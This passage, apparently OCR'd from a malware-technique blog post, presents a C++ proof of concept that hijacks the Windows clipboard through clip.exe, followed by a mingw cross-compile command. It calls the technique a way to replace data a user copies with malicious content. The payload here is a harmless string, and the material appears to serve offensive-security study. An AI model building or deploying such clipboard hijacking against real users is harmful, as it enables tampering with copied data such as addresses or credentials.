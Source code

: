 ```cpp
  const char *maliciousData = "Meow-meow!!";  // the text we want to copy to the clipboard

  // create a temporary file to store the malicious data
  FILE *tmpFile = fopen("meow_data.txt", "w");
  if (tmpFile == NULL) {
    printf("failed to create temporary file.\n");
    return;
  }

  // write the malicious data to the file
  fprintf(tmpFile, "%s", maliciousData);
  fclose(tmpFile);

  // use `clip.exe` to copy the content of the temporary file to the clipboard
  char command[256];
  snprintf(command, sizeof(command), "clip < meow_data.txt");

  // execute the command
  system(command);

  // clean up: delete the temporary file
  remove("meow_data.txt");

  printf("clipboard hijacked! data copied to clipboard: %s\n", maliciousData);
}

int main() {
  printf("starting clipboard hijack using clip.exe...\n");

  // hijack the clipboard with malicious data
  hijackClip();

  return 0;
}
```

This PoC will allow an attacker to inject custom data into the clipboard, for example, when a user copies sensitive information, the attacker replaces it with malicious content.      

### demo 3

Let's go to see this in action. Compile this example:        

```bash
x86_64-w64-mingw32-g++ hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

